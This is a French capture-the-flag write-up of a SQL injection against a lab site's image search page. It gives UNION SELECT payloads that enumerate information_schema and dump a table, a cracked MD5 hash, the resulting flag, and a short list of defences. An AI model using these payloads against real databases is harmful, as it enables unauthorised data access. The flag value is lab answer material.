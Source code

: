 # Injection SQL SEARCH IMAGE

Dans l'onglet SEARCH IMAGE : http://IP/?page=searchimg

L'injection SQL est une méthodes d'exploitation de faille de sécurité d'une application interagissant avec une base de données. Elle permet d'injecter dans la requête SQL en cours un morceau de requête non prévu par le système et pouvant en compromettre la sécurité.

En tapant la commande SQL : `1 OR true`

Nous pouvons voir toutes les **listes_images** créé :
```
| Title            | URL                                             |
|------------------|-------------------------------------------------|
| Nsa              | https://fr.wikipedia.org/wiki/Programme_        |
| 42 !             | https://fr.wikipedia.org/wiki/Fichier:42        |
| Google           | https://fr.wikipedia.org/wiki/Logo_de_Go        |
| Earth            | https://en.wikipedia.org/wiki/Earth#/med        |
| Hack me ?        | borntosec.ddns.net/images.png                   |
```

Nous allons faire la commande SQL suivantes pour afficher toutes les tables et colonnes associé :`1 UNION SELECT table_name, column_name FROM information_schema.columns`

On va s'intéresser à la table **list_images** :

**LIST_IMAGES**(*id, url, title, comment*)

Nous allons afficher les valeurs de title et comment grâce à la commande SQL : `1 UNION SELECT comment, title FROM list_images`

Ce qui nous donne les valeurs suivantes :

```
Title: Hack me ?
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Si on déchiffre le code `1928e8083cf461a51303633093573c46` en **MD5** on obtient albatroz, et si on le chiffre en **SHA256** on obtient : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Comment protéger vos bases de données d’une injection SQL

- Vérifier la saisie utilisateur, les données remises devraient toujours être en accord avec le type de données attendu.
- Échapper les caractères spéciaux à l’aide de mysqli_real_escape_string() ou autres fonctions.
- Préférer l’utilisation de comptes utilisateurs à accès limité pour empêcher la modification ou suppression d’éléments de la base de données.
